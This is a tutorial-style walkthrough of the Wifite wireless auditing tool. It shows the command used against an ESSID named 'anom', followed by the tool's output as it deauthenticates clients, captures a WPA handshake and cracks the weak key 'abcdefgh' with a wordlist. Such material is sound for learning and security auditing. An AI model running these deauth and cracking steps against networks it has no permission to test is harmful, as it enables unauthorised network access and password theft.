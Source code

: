 # Wifite

Wifite is a really neat tool for those who want faster pawning without
the need of running command one by one. Though there are some bugs that
might happen if you didn't have dependencies for it.

Outside of Kali linux, you might want to add other programs like
`wireshark`,`hxctools`,`cowpatty`,`aircrack-ng` for this script to
run properly.

Documentation for wifite can be seen it it's github repos in
[here](https://github.com/derv82/wifite2).

Since this is a script, you might want to use this in Kali instead
in your normal Linux daily driver. To use Wifite you have to type
` sudo ./Wifite.py`, remember to use `sudo` since you need root
privilege to run this script, it's because some dependencies want
root user privilege to change your wifi to monitor mode.

This command will execute wifite to `anom` ESSID.

```
$ sudo ./Wifite.py -e anom
```

## Results

After you run wifite, you'll get result that will be broken down here.

Banner and option are mentioned here, since I use `-e` as an option, it'll
automatically use `anom` as target ESSID.

```
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [+] option: targeting ESSID anom
 [!] Conflicting processes: #####
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)
```

As you might see above, there might be some conflicting PID that are running
in the background, you might need to specify `--kill` to run this script
again, otherwise, you can just follow through.

After changing to monitor mode, it'll then start using deauth attack to
get wpa handshake. Manually, you might be using `airodump-ng` in conjunction
with `aireplay-ng`. It'll then save your handshake information inside
`hs/handshake_anom_MA-C0-AD-DR-ES-S0_2020-12-03T10-58-09.cap`.

```
 [+] Using wlp1s0mon already in monitor mode

 [+] Scanning. Found 0 target(s), 0 client(s). Ctrl+C when ready
 [+] found target MA:C0:AD:DR:ES:S0 (anom)

 [+] (1/1) Starting attacks against MA:C0:AD:DR:ES:S0 (anom)

 [+] anom (67db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (0db) WPA Handshake capture: Discovered new client: MA:C0:AD:DR:ES:S0
 [+] anom (76db) WPA Handshake capture: Captured handshake
 [+] saving copy of handshake to hs/handshake_anom_MA-C0-AD-DR-ES-S0_2020-12-03T10-58-09.cap saved
```

`airodump-ng` and `aireplay-ng` are used for capturing handshake and
saving that handshake into a file, after this, it'll then start
using `tshark`, `pyrit`, `cowpatty`, `aircrack` to then check if
the handshake captured are a valid handshake.

```
 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for MA:C0:AD:DR:ES:S0
 [!]    pyrit: .cap file does not contain a valid handshake
 [!] cowpatty: .cap file does not contain a valid handshake
 [!] aircrack: .cap file does not contain a valid handshake
```

After cross-checking all handshakes contained in the file, it'll start
aircrack-ng to do password cracking, it'll take some time if your
password is good enough. Here I will use a really complicated password
`abcdefgh` a really strong and complicated password (please don't use
this kind of password, since it'll be cracked in no seconds.).

```
 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-top4800-probable.txt wordlist
 [+] Cracking WPA Handshake: 95.17% ETA: 0s @ 2588.2kps (current key: scofield)
 [+] Cracked WPA Handshake PSK: abcdefgh
```

*Jokes* aside, the result then will be generated in formats below.

```
 [+]   Access Point Name: anom
 [+]  Access Point BSSID: MA:C0:AD:DR:ES:S0
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_anom_MA-C0-AD-DR-ES-S0_2020-12-03T10-58-09.cap
 [+]      PSK (password): abcdefgh
 [+] saved crack result to cracked.txt (2 total)
 [+] Finished attacking 1 target(s), exiting
 ```

